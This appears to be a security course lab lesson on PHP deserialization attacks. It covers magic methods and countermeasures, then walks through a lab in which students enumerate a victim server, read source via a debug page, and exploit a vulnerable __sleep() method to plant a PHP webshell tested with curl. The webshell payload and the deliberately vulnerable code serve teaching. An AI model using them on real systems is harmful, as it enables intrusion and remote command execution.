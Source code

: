 ```yaml
---
title: "Deserialization/Serialization Attack"
teaching: 3
exercises: 30
questions:
- "What is deserialization/serialization?"
- "What are the php magic methods?"
- "What are the countermeasures?"
objectives:
- "Describe deserialization attacks."
- "Understand simple exploit."
- "Write code that avoid deserialization attacks."
---
```



## What is deserialization/serialization?

Serialization is the process of turning some object into a data format that can be restored later.
People often serialize objects in order to save them to storage, or to send as part of
communications. In php, the code looks like this: serialize(mixed $value): string

Deserialization is the reverse of that process, taking data structured from some format, and
rebuilding it into an object. Today, the most popular data format for serializing data is JSON.
Before that, it was XML. In php, the code looks like this:
unserialize(string $data, array $options = []): mixed

![demodiagram](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/e9ac88ff-50bb-4e5e-802b-989fb8f7e830)

## What are the php magic methods?

In PHP, magic methods are special methods that allow you to define custom behavior for certain
actions or events that occur on an object. These methods are automatically called by PHP based
on specific naming conventions, and they override the default behavior of PHP for those actions.

For example, __sleep() is a magic method in PHP that is called automatically when the
serialize() function is called on an object. PHP checks if the class of the object being serialized
has a method named __sleep(). If such a method exists, it is executed before the serialization
process starts. This allows you to define custom logic to prepare the object for serialization, such
as cleaning up sensitive data or performing additional data manipulation.

![deserphp](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/3e84e433-2db1-477f-8e19-357c0508fa42)

The code defines a PHP class called "test" using the "class" keyword. The class has a single
method called "__sleep()". The "__sleep()" method is a magic method in PHP that is
automatically called when you try to serialize an object of this class using the "serialize()"
function.

![desersleep](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/bea89035-748a-4d46-ae38-448ebcfdb8ac)

Within the "__sleep()" method, the code echoes the string "__sleep method called" using the
"echo" statement. This string will be printed when the "__sleep()" method is executed during
serialization.

The "__sleep()" method also returns an empty array using "return array();". In PHP, the purpose
of the "__sleep()" method is to allow you to specify which properties of an object should be
serialized. By returning an array of property names from "__sleep()", you can selectively choose
which properties should be included in the serialized representation of the object. In this case, an
empty array is returned, which means no properties will be serialized. You don’t need to pay
much attention to this property as it does not relate to the attack explained today
"serialize($new_test);"

The "serialize()" function is called with "$new_test" as an argument, which serializes the object
into a string representation. During serialization, PHP automatically calls the "__sleep()" method
of the "test" class, which echoes the string "__sleep method called" and returns an empty array.

## What are the countermeasures?

1. Input Validation: Validate and sanitize all input data, especially data that is being
deserialized. Implement strict input validation to ensure that only expected data types and
formats are accepted. Discard or reject any unexpected or malicious data during
deserialization.

2. Implement Access Controls: Implement access controls and permissions to restrict the
deserialization process to authorized users or systems. Limit the privileges of the
deserialized objects to the minimum necessary for their intended use.

3. Use Secure Serialization Methods: Use secure serialization methods, such as PHP's
"json_encode()" and "json_decode()" functions, which are less prone to deserialization
vulnerabilities compared to other serialization methods like "serialize()" and
"unserialize()".

### Demonstration
1. We will start by first adding the Deserialization Attack application:

![add_app](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/16e609c9-5446-4c6c-b70a-c7885dff74d9)

2. Next, click the View link to go to the application-specific page and start the application containers:

![start](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/5d192067-3366-4c4e-ae9e-106f158a6288)

3. Open the victim terminal and type 'ifconfig' to check the IP address for victim server  

![victim terminal](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/33064a4c-5a86-4e51-bb3c-44a057f0f4e9)



4. launch the hacker’s web interfaces in separate browser tabs by clicking the icon next to the deserialization:

![attacker-link](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f39fc9c6-f46f-4476-84e2-03a2ec342e02)

5. On the deserialization(hacker) vm, open firefox browser, or install any browser you like. Enter http://victim_ip to the URL bar to access the VNC session

![attacker-victim-vnc](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f2223721-b7fd-4914-abb3-825c9de2ec30)

6. Try going through the website like a normal user, is there anywhere you can exploit, anything you can enter?

Then, on the deserialization(hacker) vm. use the command gobuster -w /wordlist/wordlist_php -u http://victim_ip to list the directory and hidden file on the webserver. Feel free to try other web enumeration tools, and use different wordlist as well.

![hacker gobuster](https://gist.github.com/username/gist-id/raw/image.png)


7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a new file called debug.php running on the website. To open debug.php, use the command http://victim_ip/debug.php

![webpage-debug](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/1bb997d9-f217-47a0-84de-007e821cc54e)

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
source code of debug.php, you can enter the URL: viewsource:http://<victim's IP address>/debug.php?read=debug.php to view the source code of the
debug.php.

![webpage-debug-2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/ad22bd72-e436-4949-8ff3-d512471af9f8)

9. In the source code of debug.php, there are two Get parameters you can manipulate. One is called read and the other is execute. read can let you check the source code of the websites and execute will allow you to execute file contain PHP source code

![gobuster-command-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/45b13c9f-7732-4ad2-b2e0-ae1cebaef628)

10. When you run the gobuster tool, I am sure you have also found another php file called contact.php. contact.php is the file where the website will process the contact information entered by user, we can see the source code of this file by entering the URL: http://<victim's IP address>/debug.php?read=contact.php

![webpage-debug-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/abff5019-6327-446b-b0fc-91bf59594dfb)

11. Upon reviewing the source code of contact.php file, what have you found? There is a critical vulnerability in the file, a deserialization vulnerability.

```
<?php
# Omitted some code

$new_customer = new customer;
$new_customer->name = $name;
$new_customer->email = $email;
$new_customer->comment = $comment;
$temp = serialize($new_customer);

# Omitted some code

class customer
{
   public $name;
   public $email;
   public $comment;
   public function __sleep()
   {
      // Write the content to file once the object is serialized
      $filename = $this->name . '_' . $this->email;
      file_put_contents("./user_info/$filename", $this-
>comment, FILE_USE_INCLUDE_PATH);
   }
}
?>
```

12. A closer look at the preceding code reveals that the vulnerability exists in the magic function __sleep() defined in the class customer. The logic in the function __sleep() shows that once an instance of class customer is serialized, it will write a file to a directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
Recall earlier I asked you to find the parameter you can interact with on the website,
there is a webpage where you can enter user defined text. To navigate to this page, enter
the URL http://victim_ip/contact.html to access the page.

![attacker-victim-vnc2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/d97ddab3-76ae-43a0-853a-9f3a63b07f6b)

14. On this page, there are three parameters you can define: name, email, and comment. If you still remember the source code of the contact.php file, you can make an educated guess that the contact.php will handle the post request sent by contact.html form. If you want to verify that, you can also download burpsuites and verify. Or you can also examine the source code of the contact.html page to see where the POST request is sent to.

![demodiagram2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/08579174-32fa-4df9-bcfd-96bb608d5d2b)

15. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
entering all the text, click submit to plant the webshell

![demodiagram3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/47192691-5a79-4f79-88e7-0f2e0384e999)

16. On the attacker VM, use the command curl
http://victim_ip/user_info/test_user.php?cmd=whoami to test whether the planted
webshell is working or not.

![result](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f3c29b0e-0756-48ce-97bf-e5058091f85f)

17. A secure server is running on the Secure server's IP address, you are welcome to try attacking
it, but it does not have the deserialization vulnerability and misconfiguration present on
the victim VM.




